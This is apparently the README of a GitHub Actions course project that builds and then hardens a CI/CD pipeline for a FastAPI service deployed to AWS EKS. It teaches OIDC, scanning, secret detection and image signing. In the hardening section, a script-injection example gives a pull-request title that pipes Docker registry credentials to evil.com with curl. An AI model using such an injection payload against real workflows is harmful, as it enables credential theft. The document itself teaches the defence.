


# Day 6 — The Project: a complete CI/CD pipeline, built one step at a time

> **Days 1–5 taught you the keywords. Day 6 builds the thing.**
>
> A Python backend, containerised, pushed to Amazon ECR, deployed to **AWS EKS**
> by **GitHub Actions** — assembled across **14 steps**, where each step adds one
> idea to a pipeline that already works.

---

## Why this project is different from Days 1–5

Days 1–5 were a tour of the language: triggers, jobs, matrices, artifacts,
OIDC, custom actions. Forty-eight small files, each demonstrating one keyword.
That is how you learn vocabulary.

But nobody ever hands you a finished pipeline. You are handed a repository and
a deadline, and you build the pipeline *around* an application, one problem at
a time. That is what this project rehearses.

**The rule for the whole day: you never paste a finished pipeline.** At every
step you have a working pipeline, you find the next thing it cannot do, and you
add exactly enough to do it. Fourteen times. By the end, the "advanced"
pipeline is not intimidating, because you wrote every line of it yourself and
you remember why each one is there.



---

## What you are building



**Authentication to AWS uses OIDC — there is not a single AWS key anywhere in
the repository.**

---

## The application: `taskapi`

A small **FastAPI** service. Deliberately small: the pipeline is the lesson, and
a complicated app would only get in the way. But it is a *real* service, with
the things a pipeline actually needs from one.

| Path | What it is | Why the pipeline cares |
|---|---|---|
| `app/main.py` | The API — CRUD over `/api/v1/tasks` | The thing being shipped |
| `app/models.py` | Pydantic request/response models | Validation the tests assert on |
| `app/storage.py` | In-memory store | No database = no fragile demo |
| `app/config.py` | Settings from environment variables | Same image, different config per env |
| `tests/` | 15 pytest tests | What makes a green tick mean something |
| `Dockerfile` | Multi-stage, non-root | The artifact we ship |
| `k8s/` | Deployment, Service, Ingress, HPA | The desired state EKS reconciles to |
| `pyproject.toml` | ruff + pytest config | Identical behaviour locally and in CI |

Three endpoints exist purely to serve the pipeline:

- **`/healthz`** — liveness. Kubernetes restarts the pod when this fails.
- **`/readyz`** — readiness. Kubernetes stops sending traffic when this fails.
  This is what makes a rolling deploy zero-downtime.
- **`/`** — returns the `RELEASE` the pipeline stamped in, so `curl` against the
  live service proves **which commit is running**. Every deploy step asserts on it.

Run it locally in 30 seconds:

```bash
pip install -r requirements-dev.txt
uvicorn app.main:app --reload      # then open http://127.0.0.1:8000/docs
pytest                             # 15 passed
```

---

## Setup — 5 minutes

### 1. Create a fresh repository

Give the project its own repo. Day 6 is not more practice files in the Day 1–5
repo; it is a project, and it should look like one.

**New repository** → name it `eks-cicd-project` → Public (free Actions minutes
and free secret scanning) → Add a README → **Create**.

### 2. Copy the application in

Copy **everything in this `day-06-project/` folder except `workflows/`** to the
root of your new repository:

```
eks-cicd-project/
├── app/
├── tests/
├── k8s/
├── Dockerfile
├── .dockerignore
├── .gitignore
├── requirements.txt
├── requirements-dev.txt
├── pyproject.toml
└── AWS-SETUP.md
```

> ⚠️ **At the root, not nested.** Every workflow refers to `app/`, `k8s/` and
> `requirements.txt` as top-level paths. Drop the folder in as
> `day-06-project/app/...` and every step fails on "file not found".

Optionally copy `dependabot.yml` to `.github/dependabot.yml` (Step 10 explains
why you will want it).

### 3. Add workflows **one at a time** — this is the whole method

The `workflows/` folder here holds 14 files. **Do not copy them all in.** Add
one, run it, understand it, then add the next. Each is a complete workflow that
runs on its own, so you always have something green in front of you.

To add one in the browser: **Add file → Create new file** → filename
`.github/workflows/step-01-checkout.yml` → paste → **Commit** → open the
**Actions** tab.

### 4. AWS — only from Step 7

**Steps 1–6 need no AWS account.** Work through them first. When you reach
Step 7, do **[AWS-SETUP.md](AWS-SETUP.md)** once — ECR, the OIDC provider, the
IAM role, the EKS cluster, and the five repository variables.

> 💸 **EKS is not free tier.** Roughly **$0.15–0.20/hour** all in. Do Steps
> 7–14 in one or two sittings and run the teardown in AWS-SETUP.md Part 7 when
> you finish. Steps 1–6 and 10–12 cost nothing at all.

---

## The 14 steps

### Part A — Build the pipeline (Steps 1–9)

| # | File | The one new idea | AWS? |
|---|---|---|:---:|
| 1 | `step-01-checkout.yml` | The runner is empty — `actions/checkout` | — |
| 2 | `step-02-setup-python.yml` | Pin the Python version; cache dependencies | — |
| 3 | `step-03-lint.yml` | Fail fast and cheap, before the slow stages | — |
| 4 | `step-04-test.yml` | Matrix testing, artifacts, `if: always()` | — |
| 5 | `step-05-ci-pipeline.yml` | Parallel jobs, `needs`, real triggers, branch protection | — |
| 6 | `step-06-docker-build.yml` | Build the artifact; smoke-test the **image** | — |
| 7 | `step-07-push-to-ecr.yml` | **OIDC** — keyless AWS auth; push to ECR | ✅ |
| 8 | `step-08-deploy-to-eks.yml` | `kubectl` + `rollout status` — a deploy that waits | ✅ |
| 9 | `step-09-full-pipeline.yml` | 🚀 **Commit → production**, gated, with rollback | ✅ |

### Part B — Harden it (Steps 10–14)

| # | File | The one new idea | AWS? |
|---|---|---|:---:|
| 10 | `step-10-harden-the-workflow.yml` | Least privilege, SHA pinning, **script injection** | — |
| 11 | `step-11-code-and-dependency-scanning.yml` | bandit + CodeQL + pip-audit → Security tab | — |
| 12 | `step-12-secret-scanning.yml` | gitleaks over **full history**; push protection | — |
| 13 | `step-13-image-scan-sbom-sign.yml` | Trivy gate, SBOM, keyless **cosign** signing | ✅ |
| 14 | `step-14-hardened-pipeline.yml` | 🏁 Everything, in one production-grade file | ✅ |

**Steps 9 and 14 are the two milestones.** Step 9 is the pipeline that ships.
Step 14 is the pipeline that ships *safely*. Everything else builds toward one
of those two.

---

# Part A — Build the pipeline

## Step 1 — Get the code onto the runner

**Problem:** you want to run tests, and nothing works.

**Why:** the runner GitHub hands you is a blank Ubuntu machine. It is not your
repository. Your files are not on it.

Add `.github/workflows/step-01-checkout.yml` and run it. Two jobs: one without
`actions/checkout`, one with.

👀 **Observe:** `without-checkout` lists an empty directory. `with-checkout`
lists `app/`, `tests/`, `k8s/`. Also note the short SHA printed at the end —
from Step 7 that becomes the image tag, and it is the thread that ties a commit
to an image to a running pod.

🔨 **Break it on purpose:** delete the checkout step from the second job. Same
"file not found" error, now with an obvious cause.

---

## Step 2 — Python, pinned and cached

**Problem:** which Python is on the runner? Not necessarily yours.

`actions/setup-python` installs the exact version. Then `cache: 'pip'` makes
the install fast — the cache key is a hash of `requirements*.txt`, so a pinned
dependency change automatically invalidates it. That is *why* the requirements
files use `==`.

👀 **Observe:** run it **twice**. Run 2 logs `Cache restored from key` and the
install step is dramatically faster.

💡 **Teaching point:** "works on my machine" is almost always an unpinned
version. The pipeline is where you find out.

---

## Step 3 — Lint: fail in 5 seconds, not 5 minutes

**The principle that shapes the entire pipeline: order your stages
cheapest-first.** A style error caught at second 5 costs nothing. The same
error caught after a build, a push and a deploy costs six minutes of everyone's
attention.

`ruff` is linter and formatter in one Rust binary, configured in
`pyproject.toml` so it behaves identically on a laptop and on the runner.

👀 **Observe:** `--output-format=github` puts findings **inline on the changed
line** in a pull request, not buried in a log.

🔨 **Break it on purpose:** add `import os` to `app/main.py` and never use it.
Red in seconds, F401, annotated on the exact line.

⚠️ **Note `ruff format --check`, not `ruff format`.** CI reports; it never
rewrites your code and pushes it back. A pipeline that edits your branch is a
pipeline developers learn to fight.

---

## Step 4 — Tests, and keeping the evidence

This is the gate that gives the green tick meaning. Three things worth stealing:

1. **A matrix** — 3.11 and 3.12 simultaneously. `fail-fast: false`, so one
   failure does not hide the other.
2. **`if: always()`** on the upload — you need the report *most* when tests
   failed, and a normal step is skipped after a failure.
3. **Artifacts + `$GITHUB_STEP_SUMMARY`** — the runner is destroyed when the job
   ends. Anything you want afterwards must be uploaded, and anything a human
   should see at a glance belongs in the summary.

🔨 **Break it on purpose:** change an assertion in `tests/test_tasks.py`. Watch
it go red, download the artifact, read the JUnit XML.

---

## Step 5 — 🎯 The first real CI pipeline

Steps 1–4 were four workflows you clicked to run. **That is not CI.** CI happens
whether anyone remembers or not.

This file merges them, and adds the shape:

```
lint ──┐
       ├──> ci-passed
test ──┘
 (matrix)
```

New ideas: `on: push` / `on: pull_request`, **parallel** jobs, `needs:`,
`concurrency` (a new push cancels the run for the commit you just replaced),
and one roll-up job.

**Then do the thing that makes it matter:** Settings → Branches → branch
protection rule for `main` → Require status checks → select **"CI passed"**.
The merge button is now physically blocked by a red pipeline.

💡 **Why a roll-up job?** Branch protection requires checks *by name*. Matrix
job names change when you add a Python version, and the protection rule
silently stops covering the new one. Requiring one summary job keeps working
however the matrix grows. Note its `if: always()` — a *skipped* required check
can let a broken PR merge.

---

## Step 6 — Containerise (build only, nothing published)

**The hinge of the whole project.** Until now we tested *source*. From here on
we build, promote and deploy an **image**.

The rule everything downstream depends on:

> **Build the image ONCE. Promote that exact image to every environment.**

Rebuild per environment and staging and production are different artifacts —
so a green staging test proves nothing about production.

**Tag with the git SHA, never `latest`.** `latest` is not a version: two pods
started an hour apart can be running different code, and a rollback has nothing
specific to roll back to.

👀 **Observe:** the job **runs the image and curls it**. Your tests passed
against the source tree — that does not prove the *image* works. A missing
`COPY`, a wrong `CMD`, a dependency that is in `requirements-dev.txt` but not
`requirements.txt`: all pass CI and fail in the container.

👀 **Observe (2):** push a change to `app/main.py` and rebuild. The pip install
layer is **cached** — that is the Dockerfile's copy-order paying off.

🔨 **Break it on purpose:** comment out `COPY app/ ./app/` in the Dockerfile.
The build succeeds; the smoke test fails. Exactly the class of bug this step
exists to catch.

---

## Step 7 — Push to ECR with **no AWS keys**

📋 **Do [AWS-SETUP.md](AWS-SETUP.md) Parts 1–3 first.**

**The obvious approach is wrong.** Pasting an AWS access key into repository
secrets gives you a long-lived credential that works from anywhere on the
internet, leaks through a log or a fork or an ex-employee's laptop, and that
nobody ever rotates.

**OIDC replaces it.** GitHub mints a short-lived signed token that says *"this
is repo X, branch Y, workflow Z"*. AWS trusts that token and returns
credentials good for about an hour, scoped to one role.

```
GitHub run  ──(signed OIDC token)──>  AWS STS  ──(temp creds ~1h)──>  ECR
```

⚠️ **The line everyone forgets:** `permissions: id-token: write`. Without it
there is no token to send, and the login fails with *"Not authorized to perform
sts:AssumeRoleWithWebIdentity"*.

⚠️ **The dangerous mistake:** a trust policy whose `sub` condition is `repo:*`
trusts **every repository on GitHub**. It must name your org and repo.
AWS-SETUP.md Part 3a covers this in detail — it is the most security-critical
paragraph in the project.

👀 **Observe:** `aws sts get-caller-identity` in the log proves who the runner
is. Then find your image in the ECR console, tagged with the commit SHA. **No
secret appears anywhere in the workflow file.**

---

## Step 8 — Deploy to EKS

📋 **AWS-SETUP.md Parts 1–4, including 4b.**

A pipeline does not ssh anywhere. It asks the Kubernetes API server to change
the desired state, and the cluster reconciles itself. Three things must line up:

1. **AWS identity** — the same OIDC role.
2. **A kubeconfig** — `aws eks update-kubeconfig` writes one.
3. **Cluster permission** — ⚠️ **being an AWS admin does not make you a
   Kubernetes admin.** The IAM role needs an EKS *access entry*. Miss it and you
   get `error: You must be logged in to the server (Unauthorized)`, which is the
   single most common EKS-deploy failure there is.

**The most important line in the file:**

```yaml
kubectl rollout status deployment/taskapi -n "$NS" --timeout=5m
```

`kubectl apply` returns `configured` instantly. Without the wait, the job goes
green while the new pods are still crash-looping. **A deploy that reports
success before the pods are healthy is worse than no automation — it is
automation that lies to you.**

👀 **Observe:** old pods terminate only *after* new ones are Ready
(`maxUnavailable: 0`). Zero downtime, visible in the log.

👀 **Observe (2):** the smoke test asserts the running pod reports the SHA we
just deployed — catching a deploy that "succeeded" with the wrong tag.

🔨 **Break it on purpose:** set the image tag to something that does not exist.
`rollout status` times out, the job fails, and the `if: failure()` step prints
pod descriptions, logs and events automatically.

---

## Step 9 — 🚀 The complete pipeline: commit to production

```
lint ──┐
       ├──> build & push ──> STAGING ──> [👤 approve] ──> PRODUCTION ──> summary
test ──┘     (ONCE, to ECR)  (automatic)                    (gated)
```

**Two ideas make this production-grade:**

**1. Build once, promote the artifact.** One build job. Staging and production
deploy the identical image. Production runs the bytes staging approved.

**2. The human gate is a GitHub *environment*, not an `if`.** The `production`
environment has a required reviewer, so the run **pauses** and waits for a
click. It is also where production-only secrets live — scoped so a staging job
cannot read them even by accident.

**Plus a safety net:** if the production rollout or its smoke test fails,
`kubectl rollout undo` restores the previous version in seconds. That works
because the Deployment sets `revisionHistoryLimit: 5`.

📋 **Setup:** Settings → Environments → `staging` (no rules) and `production`
(Required reviewers: you).

👀 **Observe:** push to `main`. The run flows to staging, then stops on
**Waiting** with a *Review deployments* button. Approve it, and production rolls
out **the same image tag** staging is already running.

🎬 **Great demo moment:** open the run on one side and `kubectl get pods -w` on
the other. Approve, and watch the pods roll live.

> ### 🏁 If you stop here, you have a real pipeline.
> Everything from here on is about making it safe to leave running.

---

# Part B — Harden the pipeline

> **The framing for this half:** your pipeline can push images and deploy to
> production. That makes it the **most privileged thing in your repository** —
> and the highest-value target in it. We now defend four layers in turn: the
> workflow, the code, the secrets, and the artifact.

## Step 10 — Harden the workflow itself

Four fixes, all free:

**1. Least-privilege `permissions`.** `GITHUB_TOKEN` can default to write across
the whole repo. A compromised dependency in a test run could then push commits
or delete releases. Default to `contents: read` at the top; elevate per job.

**2. Pin third-party actions to a commit SHA.** `uses: some/action@v1` is a
**moving pointer**. Whoever owns that repo can repoint the tag at new code,
which then runs inside your pipeline with your credentials — the exact shape of
the `tj-actions/changed-files` compromise. A SHA cannot be moved.

> "Doesn't pinning mean never updating?" No — that is what
> `.github/dependabot.yml` is for. It opens a PR bumping the SHA and the version
> comment, your CI runs on it, and you review the upgrade instead of receiving
> it silently.

**3. 💉 Never interpolate untrusted input into a `run:` block.** This is *the*
GitHub Actions vulnerability:

```yaml
# 🚫 NEVER
- run: echo "PR title: ${{ github.event.pull_request.title }}"
```

The expression is substituted into the script text **before the shell runs it**.
A pull request titled:

```
x"; cat $HOME/.docker/config.json | curl -d @- evil.com; #
```

exfiltrates your registry credentials. The fix is to pass it through `env:` —
then it is a shell variable, and **data stays data**:

```yaml
# ✅ ALWAYS
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR title: $PR_TITLE"
```

**4. `persist-credentials: false` on checkout.** By default checkout leaves a
push-capable token in `.git/config` for the rest of the job. If you are not
pushing, do not leave the key in the door.

🎬 **Demo:** open a PR titled `` test"; echo PWNED; # `` against a workflow using
the unsafe form, and watch `PWNED` appear in the log. Nothing lands harder.

---

## Step 11 — Scan the code and the dependencies

Most of a modern Python service is not your code. Three lines in
`requirements.txt` pull in dozens of transitive packages.

| Tool | Looks at | Speed |
|---|---|---|
| **bandit** | Your Python, pattern-based | Seconds |
| **CodeQL** | Your Python, dataflow — follows a value from a request parameter into a dangerous sink | Minutes |
| **pip-audit** | Your installed versions vs the advisory database | Seconds |

All three publish **SARIF** to the **Security tab**, so findings become tracked,
deduplicated, dismissable items with history — not log output nobody rereads.
That needs `security-events: write`.

💡 **The judgement call that decides whether any of this survives contact with a
real team: fail on HIGH and CRITICAL, report MEDIUM and LOW.** A scanner that
reddens the build over cosmetic findings gets `continue-on-error: true` within a
fortnight, and then it protects nothing.

💡 **Note the `schedule:` trigger.** A dependency you install today becomes
vulnerable when a CVE is published next month. No commit of yours triggers that
discovery — something has to re-scan on a timer.

💡 **Note we audit `requirements.txt`, not `requirements-dev.txt`.** A CVE in
pytest never reaches production; blocking a release on it teaches the team to
ignore the scanner.

---

## Step 12 — Secret scanning

**This is the one that actually causes breaches.** Not a clever exploit — an AWS
key pasted into a config file "just to test something".

> ### The thing beginners get wrong
> **Deleting the secret in a follow-up commit does not remove it.** Git keeps
> the whole history. `git log -p` still shows it, every fork still has it, and
> bots scraping GitHub find keys within *minutes* of a push.
>
> **The only correct response to a committed credential is to rotate it
> immediately.** Cleaning history is optional. Rotating is not.

Three layers, cheapest first:

1. **Push protection** (a repo setting, not a workflow) — blocks the push
   itself. The only layer that *prevents* the leak rather than reporting it.
2. **This workflow** — gitleaks over the full history on every PR.
3. **A pre-commit hook** on developer machines.

⚠️ **Note `fetch-depth: 0`.** The default shallow clone fetches one commit, so a
scanner sees one commit and reports "no leaks found" — a green tick that means
nothing.

🔨 **Try it:** commit a file containing
`AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY` and watch the
job go red. (That is AWS's public documentation example key, not a real
credential.)

💡 **Tie it back to Step 7:** with OIDC there is no long-lived AWS key in the
first place. The best secret-scanning strategy is having fewer secrets.

---

## Step 13 — Secure the artifact: scan, SBOM, sign

Your code can be perfect and your image still ship a critical CVE — because an
image is mostly *other people's* software. Our image is `python:3.12-slim` plus
some wheels, and Step 11's scans never looked at the base OS layer at all.

**Three outputs, three purposes:**

**1. Trivy scan** — OS packages, Python packages, every layer. Note the pattern:
one Trivy run reports *everything* to the Security tab, a second run is the
**gate** (`exit-code: '1'`, CRITICAL/HIGH only). And `ignore-unfixed: true` —
do not fail on a CVE with no available fix, because there is nothing the team
can do today and an unactionable red build is one people learn to ignore.

**2. SBOM** — a machine-readable inventory of everything inside. When the next
Log4Shell lands, an SBOM answers *"are we affected, and where?"* in seconds
instead of days. Increasingly a procurement requirement, not just good practice.

**3. Signature (cosign, keyless)** — proves this image came from *this repo's*
pipeline. Without it, anyone who can push to your registry can put an image
under your tag and the cluster will happily run it. Keyless signing reuses the
same OIDC identity as the AWS login — **no key to manage**.

⚠️ **Order matters: build → scan → *then* push.** Scanning an image that is
already in the registry (or already in production) is a report, not a gate.

💡 **Sign and deploy the DIGEST, not the tag.** A tag can be repointed; a digest
*is* the bytes. Step 14 deploys by digest for exactly this reason.

---

## Step 14 — 🏁 The final pipeline

Step 9, with every control from Steps 10–13 folded into the delivery path:

```
secret-scan ─┐
lint ────────┤
test ────────┼──> build + scan + sign ──> staging ──> [👤] ──> production
sast ────────┤     (gate: no CRITICAL/HIGH)                       │
audit ───────┘                                                    └─> rollback on failure
```

**The rule that makes all of it work:** every gate runs **before** the artifact
is published, and the artifact is built **once**. Production runs the exact
bytes that passed every check. A pipeline that scans after deploying has an
audit trail, not a defence.

👀 **Observe:** five checks run in parallel in about 90 seconds. Nothing reaches
ECR until every one is green. Production **verifies the cosign signature before
deploying** — the payoff for Step 13.

💡 **Where a real team goes next:** a Kubernetes admission controller (Kyverno,
or Sigstore's policy controller) that enforces the same signature check in the
cluster, so an unsigned image cannot start *even if a human applies it by hand*.

---

## 🧹 When you finish: tear the AWS resources down

**The cluster bills by the hour whether you use it or not.** Run
**[AWS-SETUP.md](AWS-SETUP.md) Part 7** the moment you are done — it deletes the
load balancers first (or the VPC delete hangs), then the cluster, the ECR
repository and the IAM role.

Check Cost Explorer the next morning. A leftover NAT gateway or a stray EBS
volume is the classic surprise-bill culprit.

---

## 🔧 When something fails

Full table in **[AWS-SETUP.md → Troubleshooting](AWS-SETUP.md#-troubleshooting)**.
The five you will actually hit:

| Symptom | Cause | Fix |
|---|---|---|
| `Not authorized to perform sts:AssumeRoleWithWebIdentity` | No `permissions: id-token: write`, or the trust policy `sub` does not match | Step 7 / AWS-SETUP Part 3a |
| `You must be logged in to the server (Unauthorized)` | AWS auth worked; **Kubernetes** does not know the role | AWS-SETUP Part 4b — the access entry |
| Rollout times out, pods `ImagePullBackOff` | Wrong image tag, or nodes cannot reach ECR | Check the tag in the log; check the node IAM role |
| Pods `CrashLoopBackOff` | The app is failing to start | `kubectl logs -n <ns> -l app=taskapi --tail=50` |
| `cannot overwrite immutable tag` | You re-ran a build for a commit already pushed | Expected — that is `IMMUTABLE` working. Push a new commit |

**The first command to run when a deploy fails**, before anything else:

```bash
kubectl get events -n taskapi-staging --sort-by=.lastTimestamp | tail -20
```

Kubernetes has almost always already told you what is wrong. Steps 8 and 9
print this for you in their `if: failure()` step.

---

## 🎓 Exercises — take it further

Ordered roughly by difficulty. Each is a real thing teams do.

1. **Add a `dev` environment** that deploys on every push to any branch, with no
   approval. Three environments, one image.
2. **Deploy on tag, not on push.** Change the trigger to `on: push: tags: ['v*']`
   and tag the image with the release version. This is how most teams actually
   release.
3. **Split the workflow up.** Move the test job into a reusable workflow
   (`workflow_call`) and call it from both the CI and the release pipelines —
   Day 3's lesson, applied to a real repo.
4. **Add a real database.** Swap `app/storage.py` for PostgreSQL, add a
   `services:` container to the test job, and add a migration step to the
   deploy. This is the single biggest jump toward a real-world pipeline.
5. **Post to Slack** on a production deploy, with the release SHA and who
   approved it.
6. **Enforce signatures in the cluster.** Install Kyverno and write a policy
   that rejects any image not signed by your repo's identity. Then try to
   `kubectl run` an unsigned image and watch it be refused.
7. **Blue/green or canary.** Add a second Deployment and shift traffic with the
   Service selector, or install Argo Rollouts and do it properly.
8. **Tighten the OIDC trust policy** to
   `repo:<org>/<repo>:environment:production`, so an AWS production credential
   cannot even be minted until a human approves the deployment.

---

## 📋 Quick reference — the rules this project teaches

| Rule | Step |
|---|---|
| The runner is empty — always check out first | 1 |
| Pin your versions; cache what you install | 2 |
| Order stages cheapest-first | 3 |
| `if: always()` on anything that reports | 4 |
| Require one roll-up check in branch protection | 5 |
| **Build the artifact once; promote it everywhere** | 6, 9 |
| Tag with the git SHA, never `latest` | 6 |
| **No long-lived cloud keys — use OIDC** | 7 |
| A deploy is not done until `rollout status` says so | 8 |
| Gate production with an environment + a human | 9 |
| Roll back automatically when the smoke test fails | 9 |
| Least privilege on `GITHUB_TOKEN`; pin actions to SHAs | 10 |
| **Never interpolate untrusted input into `run:`** | 10 |
| Fail on HIGH/CRITICAL, report the rest | 11, 13 |
| A committed secret is leaked — rotate it, don't hide it | 12 |
| Scan the artifact **before** publishing it | 13 |
| Sign what you ship; deploy by digest | 13, 14 |

---

## 📁 What is in this folder

```
day-06-project/
├── README.md              ← you are here
├── AWS-SETUP.md           ← one-time AWS setup, and the teardown
├── dependabot.yml         ← copy to .github/dependabot.yml
├── app/                   ← the FastAPI service
├── tests/                 ← 15 pytest tests
├── k8s/                   ← Deployment, Service, Ingress, HPA
├── Dockerfile             ← multi-stage, non-root
├── requirements.txt       ← runtime deps (pinned)
├── requirements-dev.txt   ← + test and security tooling
├── pyproject.toml         ← ruff, pytest, coverage config
└── workflows/             ← the 14 steps — add ONE AT A TIME
    ├── step-01-checkout.yml                    ┐
    ├── step-02-setup-python.yml                │
    ├── step-03-lint.yml                        │ Part A
    ├── step-04-test.yml                        │ build the
    ├── step-05-ci-pipeline.yml                 │ pipeline
    ├── step-06-docker-build.yml                │
    ├── step-07-push-to-ecr.yml                 │
    ├── step-08-deploy-to-eks.yml               │
    ├── step-09-full-pipeline.yml            🚀 ┘
    ├── step-10-harden-the-workflow.yml         ┐
    ├── step-11-code-and-dependency-scanning.yml│ Part B
    ├── step-12-secret-scanning.yml             │ harden it
    ├── step-13-image-scan-sbom-sign.yml        │
    └── step-14-hardened-pipeline.yml        🏁 ┘
```

Every workflow file is heavily commented — the *why*, the common failure, and
what to look for in the Actions tab are all in the file itself, so a student
reading it a month later still gets the lesson.

---

**Days 1–5 taught you GitHub Actions. Day 6 is where you use it.** 🚀
